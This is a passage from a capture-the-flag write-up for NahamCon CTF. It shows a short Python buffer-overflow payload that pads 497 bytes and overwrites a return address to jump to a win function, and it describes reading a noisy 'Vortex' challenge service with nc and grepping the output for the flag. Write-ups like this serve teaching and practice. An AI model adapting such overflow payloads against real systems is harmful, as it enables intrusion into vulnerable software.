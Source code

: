 We can now get the flag with the following: 

```py
#!/usr/bin/python

vulnfunc = '\x0e\x13\x40\x00\x00\x00\x00\x00'
buff = 'A' * 497

print buff + vulnfunc
```

![DangerFlag](./assets/Nahamconctf/dangerflag.jpg)

***

# Misc

### Vortex

* Clue: Will you find the flag, or get lost in the vortex?
* Points: 75
* Solves: 582

When we connect the output looks like random characted (like cat /dev/urandom).

We can redirect the output to a file then grep for the flag.

```bash
 nc jh2i.com 50017 > vortex.txt
```
